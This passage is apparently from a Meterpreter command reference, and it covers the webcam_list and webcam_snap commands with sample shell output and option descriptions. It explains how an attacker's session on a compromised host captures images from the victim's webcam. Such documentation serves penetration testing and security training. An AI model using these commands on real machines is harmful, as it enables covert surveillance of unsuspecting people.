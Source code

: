 # 24 - webcam_list

The webcam_list command when run from the Meterpreter shell, will display currently available web cams on the target host.

Example usage:

```
meterpreter > webcam_list
1: Creative WebCam NX Pro
2: Creative WebCam NX Pro (VFW)

meterpreter >
```

# 25 - webcam_snap

The webcam_snap’ command grabs a picture from a connected web cam on the target system, and saves it to disc as a JPEG image. By default, the save location is the local current working directory with a randomized filename.

```
meterpreter > webcam_snap -h

Usage: webcam_snap [options]
Grab a frame from the specified webcam.

OPTIONS:

    -h      Help Banner
    -i   The index of the webcam to use (Default: 1)
    -p   The JPEG image path (Default: 'gnFjTnzi.jpeg')
    -q   The JPEG image quality (Default: '50')
    -v   Automatically view the JPEG image (Default: 'true')

meterpreter >


OPTIONS:

-h:	Displays the help information for the command

-i opt:	If more then 1 web cam is connected, use this option to select the device to capture the
        image from

-p opt:	Change path and filename of the image to be saved

-q opt:	The imagine quality, 50 being the default/medium setting, 100 being best quality

-v opt:	By default the value is true, which opens the image after capture.
```
